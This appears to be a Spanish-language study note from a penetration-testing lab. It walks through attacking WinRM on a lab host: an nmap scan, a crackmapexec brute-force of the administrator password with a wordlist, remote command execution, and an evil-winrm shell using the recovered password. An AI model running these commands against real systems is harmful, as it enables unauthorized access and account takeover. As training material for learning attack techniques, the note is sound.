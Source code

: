 Vamos a explotar el protocolo WInRM, para ello hay que tener en cuenta que el escaneo no puede ser el comun ya que no entra dentro de los 1000 puertos mas comunes, para ello realizaremos el siguiente comandos
nmap -sV -p 5985 10.2.28.238
![[Pasted image 20240308120426.png]]

Ejecutamos crackmapexec
```
crackmapexec
```
![[Pasted image 20240308123726.png]]

Ahora ejecutaremos un ataque de fuerza bruta con crackmapexec para descubrir la contraseña del usuario administrador
```
crackmapexec winrm 10.2.28.238 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
![[Pasted image 20240308124015.png]]
![[Pasted image 20240308124123.png]]

Una vez obtenemos las credenciales podemos utilizar esta herramienta para ejecutar comandos, por ejemplo vamos a ejecutar whoami
```
crackmapexec winrm 10.2.28.238 -u administrador -p tinkerbell -x "whoami"
```
![[Pasted image 20240308124509.png]]

Ahora solicitaremos infomación del sistema
![[Pasted image 20240308124605.png]]

Ahora ejecutaremos la herramienta evilwinrm para obtener una sesion shell y como podemos ver ya tenemos una sesión shell 
```Shell
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.28.238
```
![[Pasted image 20240308125010.png]]


